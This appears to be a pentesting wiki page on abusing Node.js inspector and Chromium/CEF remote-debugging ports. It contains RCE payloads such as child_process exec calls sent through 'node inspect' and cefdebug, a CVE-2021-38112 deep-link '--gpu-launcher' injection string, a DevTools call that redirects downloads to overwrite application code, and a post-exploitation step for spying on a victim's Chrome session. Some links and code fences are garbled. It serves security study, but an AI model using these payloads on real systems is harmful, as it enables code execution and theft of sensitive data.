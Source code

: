 # Node inspector/CEF debug abuse


## Basic Information

[[https://origin.nodejs.org/ru/docs/guides/debugging-getting-started|From the docs]]: When started with the `--inspect` switch, a Node.js process listens for a debugging client. By **default**, it will listen at host and port **`127.0.0.1:9229`**. Each process is also assigned a **unique** **UUID**.

Inspector clients must know and specify host address, port, and UUID to connect. A full URL will look something like `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`.

> [!WARNING]
> Since the **debugger has full access to the Node.js execution environment**, a malicious actor able to connect to this port may be able to execute arbitrary code on behalf of the Node.js process (**potential privilege escalation**).

There are several ways to start an inspector:

```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
```
When you start an inspected process something like this will appear:

```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
```
Processes based on **CEF** (**Chromium Embedded Framework**) like need to use the param: `--remote-debugging-port=9222` to open de **debugger** (the SSRF protections remain very similar). However, they **instead** of granting a **NodeJS** **debug** session will communicate with the browser using the [[https://chromedevtools.github.io/devtools-protocol/|**Chrome DevTools Protocol**]], this is an interface to control the browser, but there isn't a direct RCE.

When you start a debugged browser something like this will appear:

```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
```
### Browsers, WebSockets and same-origin policy 

Websites open in a web-browser can make WebSocket and HTTP requests under the browser security model. An **initial HTTP connection** is necessary to **obtain a unique debugger session id**. The **same-origin-policy** **prevents** websites from being able to make **this HTTP connection**. For additional security against [[https://en.wikipedia.org/wiki/DNS_rebinding|**DNS rebinding attacks**]]**,** Node.js verifies that the **'Host' headers** for the connection either specify an **IP address** or **`localhost`** or **`localhost6`** precisely.

> [!TIP]
> This **security measures prevents exploiting the inspector** to run code by **just sending a HTTP request** (which could be done exploiting a SSRF vuln).

### Starting inspector in running processes

You can send the **signal SIGUSR1** to a running nodejs process to make it **start the inspector** in the default port. However, note that you need to have enough privileges, so this might grant you **privileged access to information inside the process** but no a direct privilege escalation.

```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
```
> [!TIP]
> This is useful in containers because **shutting down the process and starting a new one** with `--inspect` is **not an option** because the **container** will be **killed** with the process.

### Connect to inspector/debugger

To connect to a **Chromium-based browser**, the `chrome://inspect` or `edge://inspect` URLs can be accessed for Chrome or Edge, respectively. By clicking the Configure button, it should be ensured that the **target host and port** are correctly listed. The image shows a Remote Code Execution (RCE) example:

![[<../../images/image (674).png>|]]

Using the **command line** you can connect to a debugger/inspector with:

```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
```
The tool [[https://github.com/taviso/cefdebug|**https://github.com/taviso/cefdebug**]], allows to **find inspectors** running locally and **inject code** into them.

```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
```
> [!TIP]
> Note that **NodeJS RCE exploits won't work** if connected to a browser via [[https://chromedevtools.github.io/devtools-protocol/) (you need to check the API to find interesting things to do with it|**Chrome DevTools Protocol**]].

## RCE in NodeJS Debugger/Inspector

> [!TIP]
> If you came here looking how to get [[../../network-services-pentesting/pentesting-web/electron-desktop-apps/index.html|**RCE from a XSS in Electron please check this page.**]]

Some common ways to obtain **RCE** when you can **connect** to a Node **inspector** is using something like (looks that this **won't work in a connection to Chrome DevTools protocol**):

```javascript
process.mainModule.require("child_process").exec("calc")
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require("child_process").spawnSync("calc.exe")
Browser.open(JSON.stringify({ url: "c:\\windows\\system32\\calc.exe" }))
```
```
## Chrome DevTools Protocol Payloads

You can check the API here: [[https://chromedevtools.github.io/devtools-protocol/|https://chromedevtools.github.io/devtools-protocol/]]\
In this section I will just list interesting things I find people have used to exploit this protocol.

### Parameter Injection via Deep Links

In the [[https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) Rhino security discovered that an application based on CEF **registered a custom UR**I in the system (workspaces://index.html|**CVE-2021-38112**]] that received the full URI and then **launched the CEF based applicatio**n with a configuration that was partially constructing from that URI.

It was discovered that the URI parameters where URL decoded and used to launch the CEF basic application, allowing a user to **inject** the flag **`--gpu-launcher`** in the **command line** and execute arbitrary things.

So, a payload like:

```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
```
Will execute a calc.exe.

### Overwrite Files

Change the folder where **downloaded files are going to be saved** and download a file to **overwrite** frequently used **source code** of the application with your **malicious code**.

```javascript
ws = new WebSocket(url) //URL of the chrome devtools service
ws.send(
  JSON.stringify({
    id: 42069,
    method: "Browser.setDownloadBehavior",
    params: {
      behavior: "allow",
      downloadPath: "/code/",
    },
  })
)
```
```
### Webdriver RCE and exfiltration

According to this post: [[https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148|https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148]] it's possible to obtain RCE and exfiltrate internal pages from theriver.

### Post-Exploitation

In a real environment and **after compromising** a user PC that uses Chrome/Chromium based browser you could launch a Chrome process with the **debugging activated and port-forward the debugging port** so you can access it. This way you will be able to **inspect everything the victim does with Chrome and steal sensitive information**.

The stealth way is to **terminate every Chrome process** and then call something like

```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
```
## References

- [[https://www.youtube.com/watch?v=iwR746pfTEc&t=6345s|https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s]]
- [[https://github.com/taviso/cefdebug|https://github.com/taviso/cefdebug]]
- [[https://iwantmore.pizza/posts/cve-2019-1414.html|https://iwantmore.pizza/posts/cve-2019-1414.html]]
- [[https://bugs.chromium.org/p/project-zero/issues/detail?id=773|https://bugs.chromium.org/p/project-zero/issues/detail?id=773]]
- [[https://bugs.chromium.org/p/project-zero/issues/detail?id=1742|https://bugs.chromium.org/p/project-zero/issues/detail?id=1742]]
- [[https://bugs.chromium.org/p/project-zero/issues/detail?id=1944|https://bugs.chromium.org/p/project-zero/issues/detail?id=1944]]
- [[https://nodejs.org/en/docs/guides/debugging-getting-started/|https://nodejs.org/en/docs/guides/debugging-getting-started/]]
- [[https://chromedevtools.github.io/devtools-protocol/|https://chromedevtools.github.io/devtools-protocol/]]
- [[https://larry.science/post/corctf-2021/#saasme-2-solves|https://larry.science/post/corctf-2021/#saasme-2-solves]]
- [[https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/|https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/]]



